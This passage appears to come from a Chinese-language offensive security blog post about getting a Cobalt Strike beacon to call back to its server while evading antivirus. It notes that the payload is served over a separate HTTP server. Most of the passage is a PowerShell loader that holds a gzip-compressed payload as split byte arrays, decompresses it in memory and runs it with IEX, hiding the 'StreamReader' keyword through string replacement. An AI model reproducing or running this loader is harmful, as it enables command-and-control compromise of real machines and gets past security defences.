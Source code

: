 注：这里有一点要注意，我把cobalt strike恶意代码链接复制出来另存为一个txt，服务器另外起了一个http服务提供这个txt访问。可以看到上线成功了。

图片中的命令跟上面我写的命令不一样是因为我使用了混淆绕杀软，可以不管，后面会讲。

![](https://image.3001.net/images/20200911/1599795577.png!small)

这次还是不完美，差一个，都是命令没有关键字替换，现在就是用混淆解决。

![](https://image.3001.net/images/20200911/1599795626.png!small)

先上线后查杀

```text
[Byte[]]$var_c1 =  [Byte[]](31,139,8,0,0,0,0,0,0,0,173,87,109,111,162,218,22,254,92,127,5,31,154,168,169,181,40,214,234,220,76,114,20,65,80,160,10,190,247,52,205,6,182,136,34,32,108,4,60,51,255,253,44,80,123,58,119,58,247,78,114,175,9,113,179,89,175,207,126,214,98,161,97,114,175,145,192,54,136,236,153,152,186,159,225,32,180,61,151,170,23,10,183,61,79,36,212,87,234,143,98,97,29,185,6,201,182,179,197,155,133,201,155,31,120,198,27,50,205,0,135,33,245,87,225,102,132,2,180,167,74,183,71,20,188,237,61,51,114,112,133,202,111,50,65,108,70,1,46,223,220,20,110,242,173,200,13,209,26,191,185,136,216,71,252,182,199,100,227,153,33,56,42,189,116,124,191,231,237,145,237,190,126,249,194,70,65,128,93,114,190,175,246,49,233,132,33,222,235,142,141,195,82,153,250,70,205,55,56,192,247,207,250,22,27,132,250,139,186,125,171,246,29,79,71,206,69,44,101,145,177,129,132,58,174,153,61,147,60,3,101,25,84,53,223,177,73,169,248,231,159,197,242,203,125,237,181,202,29,34,228,132,165,162,150,134,4,239,171,166,227,20,203,212,247,114,230,112,146,250,184,84,148,109,35,240,66,111,77,170,115,219,101,234,213,105,30,189,146,7,47,159,99,47,150,47,153,89,62,130,60,126,157,100,102,245,172,83,42,194,114,4,216,116,206,24,22,43,212,75,230,239,229,245,149,250,227,61,26,53,114,137,189,199,85,209,37,56,240,124,13,7,71,219,192,97,85,64,174,233,96,21,175,65,173,24,194,241,185,86,177,12,65,4,152,68,129,75,93,99,1,189,163,183,195,165,91,55,114,156,10,216,125,249,93,187,175,37,5,199,87,112,127,87,169,244,81,9,164,70,36,40,87,46,156,248,29,56,228,156,55,103,115,144,206,79,209,127,32,87,25,126,63,17,172,92,248,94,248,132,170,38,118,176,133,8,126,35,128,239,7,174,22,110,110,94,242,37,134,124,74,35,47,180,115,189,175,20,93,161,100,8,2,17,47,72,179,227,156,4,17,46,191,254,115,62,103,183,87,205,176,242,75,67,181,171,214,69,231,124,60,231,56,190,82,47,51,207,54,95,11,55,229,194,133,61,217,254,155,30,217,142,137,131,236,249,175,171,161,135,215,182,139,123,169,139,246,182,113,37,124,233,179,51,195,107,7,231,120,84,175,98,10,196,89,42,94,30,96,179,119,65,167,152,1,250,242,179,26,183,183,201,187,110,247,28,92,199,128,115,15,33,42,160,68,249)
[Byte[]]$var_c2 =  [Byte[]](199,96,206,103,88,42,138,174,140,247,128,223,249,30,104,122,187,134,50,195,87,233,75,105,165,87,239,217,125,198,101,214,65,97,88,161,70,17,212,185,81,161,52,140,28,108,86,168,142,27,218,151,71,157,136,120,249,178,248,79,184,114,228,16,219,64,33,185,154,123,45,127,2,233,197,53,235,185,80,49,145,1,167,11,48,76,52,31,27,54,114,50,84,42,148,96,155,184,155,106,182,117,13,161,248,41,38,44,114,28,40,57,176,116,132,51,129,157,12,11,141,100,156,9,204,202,191,243,163,92,213,48,17,247,190,131,247,32,157,119,33,222,65,22,244,156,75,69,229,116,67,22,54,139,255,33,236,107,157,156,139,34,195,234,10,210,135,160,129,0,154,227,145,10,53,179,3,2,125,173,88,249,137,120,255,91,120,63,182,152,31,194,100,3,124,57,200,82,94,136,47,221,148,100,229,146,75,26,217,203,229,235,59,150,57,114,1,1,212,248,192,219,119,81,136,155,13,45,111,99,165,34,211,138,14,98,42,111,199,205,160,207,29,121,225,32,112,19,184,142,112,49,7,158,147,164,129,234,119,85,201,224,162,231,145,64,15,214,226,184,144,169,195,55,78,96,69,217,203,155,58,127,178,125,163,98,100,159,21,191,81,42,54,48,140,220,247,3,79,7,150,98,152,193,50,211,185,145,76,24,246,254,6,195,245,1,82,3,14,0,0)
$var_code=$var_c1+$var_c2

$s=New-Object IO.MemoryStream(,$var_code);$a1='IEX (New-Object IO.Strea123'.Replace('123','mRe');$a2='ader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd()';IEX($A1+$a2)
```

